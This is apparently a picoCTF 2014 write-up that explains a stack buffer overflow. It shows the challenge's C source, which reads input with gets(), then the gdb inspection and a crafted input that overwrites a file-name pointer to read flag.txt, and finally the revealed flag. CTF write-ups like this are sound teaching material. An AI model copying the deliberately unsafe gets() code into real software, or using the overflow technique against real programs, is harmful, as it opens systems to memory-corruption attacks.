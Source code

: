 ### Solved by superkojiman

What the flag is a 140 point exploitation challenge. 

> This binary uses stack cookies to prevent exploitation, but all hope is not lost. Read the flag from flag.txt anyways! The binary can be found at /home/what_the_flag/ on the shell server. You can solve this problem interactively here. The source can be found here.

This challenge is interesting in that it gives us a neat interface to solve it. Here's how it looks:

![](/images/2014/pico/what_the_flag/01.png)

We're given the source code for the binary:

```c
#include <stdlib.h>
#include <stdio.h>

struct message_data{
    char message[128];
    char password[16];
    char *file_name;
};

void read_file(char *buf, char *file_path, size_t len){
    FILE *file;
    if(file= fopen(file_path, "r")){
        fgets(buf, len, file);
        fclose(file);
    }else{
        sprintf(buf, "Cannot read file: %s", file_path);
    }
}

int main(int argc, char **argv){
    struct message_data data;
    data.file_name = "not_the_flag.txt";

    puts("Enter your password too see the message:");
    gets(data.password);

    if(!strcmp(data.password, "1337_P455W0RD")){
        read_file(data.message, data.file_name, sizeof(data.message));
        puts(data.message);
    }else{
        puts("Incorrect password!");
    }

    return 0;
}
```

We basically need to enter the password "1337_P455W0RD" and and somehow manage to overwrite the file pointer so that it reads the flag. Let's see what happens when we run the program and provide the expected password:

```text
pico1139@shell:/home/what_the_flag$ ./what_the_flag
Enter your password too see the message:
1337_P455W0RD
Cannot read file: not_the_flag.txt
```

According to the interactive page, we can start overwriting the file pointer by passing in another 3 bytes after the password.

![](/images/2014/pico/what_the_flag/02.png)

So what should we overwrite it to? We want flag.txt, so all we need to do is find the address of flag.txt from not_the_flag.txt. 

```
pico1139@shell:/home/what_the_flag$ gdb -q what_the_flag
Reading symbols from what_the_flag...(no debugging symbols found)...done.
(gdb) br *puts
Breakpoint 1 at 0x8048460
(gdb) x/s 0x08048777
0x8048777:  "not_the_flag.txt"
(gdb) x/s 0x0804877f
0x804877f:  "flag.txt"
```

So we'll ovewrite the file pointer with 0x804877f to make it read flag.txt. From gets()'s manual:

> gets() reads a line from stdin into the buffer pointed to by s until either a terminating newline or EOF, which it replaces with a null byte ('\0'). No check for buffer overrun is performed (see BUGS below).

So by using the following input, we can overwrite the file pointer and still provide the correct password: 

```
1337_P455W0RD\0aa\x7f\x87\x04\x08
```

Punch it into the interactive page and we get the flag:

![](/images/2014/pico/what_the_flag/03.png)

The flag is **who_needs_%eip**
